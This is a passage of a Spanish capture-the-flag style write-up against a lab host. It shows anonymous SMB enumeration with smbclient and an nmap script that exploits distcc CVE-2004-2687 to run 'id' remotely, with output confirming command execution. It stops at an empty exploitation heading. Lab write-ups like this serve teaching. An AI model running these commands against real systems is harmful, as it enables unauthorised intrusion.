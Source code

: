 Nos descargamos los archivos pero no hay nada interesante

```
# smbclient --no-pass //10.129.251.62/tmp 
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Jul  4 21:18:55 2024
  ..                                 DR        0  Sat Oct 31 07:33:58 2020
  5632.jsvc_up                        R        0  Thu Jul  4 15:52:33 2024
  .ICE-unix                          DH        0  Thu Jul  4 15:51:22 2024
  vmware-root                        DR        0  Thu Jul  4 15:52:09 2024
  .X11-unix                          DH        0  Thu Jul  4 15:51:47 2024
  .X0-lock                           HR       11  Thu Jul  4 15:51:47 2024
  vgauthsvclog.txt.0                  R     1600  Thu Jul  4 15:51:20 2024

		7282168 blocks of size 1024. 5385828 blocks available
smb: \> prompt OFF
smb: \> recurse ON
smb: \> mget *
NT_STATUS_ACCESS_DENIED opening remote file \5632.jsvc_up
getting file \.X0-lock of size 11 as .X0-lock (0.0 KiloBytes/sec) (average 0.0 KiloBytes/sec)
getting file \vgauthsvclog.txt.0 of size 1600 as vgauthsvclog.txt.0 (4.1 KiloBytes/sec) (average 2.6 KiloBytes/sec)
NT_STATUS_ACCESS_DENIED listing \vmware-root\*
NT_STATUS_ACCESS_DENIED opening remote file \.X11-unix\X0
smb: \> exit
```
### Distcc Enumeration

Al enumerar distcc descubrimos que es vulnerable al CVE-2004-2687

```
# nmap -p 3632 10.129.251.62 --script distcc-cve2004-2687 --script-args="distcc-exec.cmd='id'" -Pn
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-04 21:27 CEST
Nmap scan report for 10.129.251.62
Host is up (0.063s latency).

PORT     STATE SERVICE
3632/tcp open  distccd
| distcc-cve2004-2687: 
|   VULNERABLE:
|   distcc Daemon Command Execution
|     State: VULNERABLE (Exploitable)
|     IDs:  CVE:CVE-2004-2687
|     Risk factor: High  CVSSv2: 9.3 (HIGH) (AV:N/AC:M/Au:N/C:C/I:C/A:C)
|       Allows executing of arbitrary commands on systems running distccd 3.1 and
|       earlier. The vulnerability is the consequence of weak service configuration.
|       
|     Disclosure date: 2002-02-01
|     Extra information:
|       
|     uid=1(daemon) gid=1(daemon) groups=1(daemon)
|   
|     References:
|       https://nvd.nist.gov/vuln/detail/CVE-2004-2687
|       https://distcc.github.io/security.html
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2004-2687

Nmap done: 1 IP address (1 host up) scanned in 0.59 seconds
```
## Distcc Exploitation
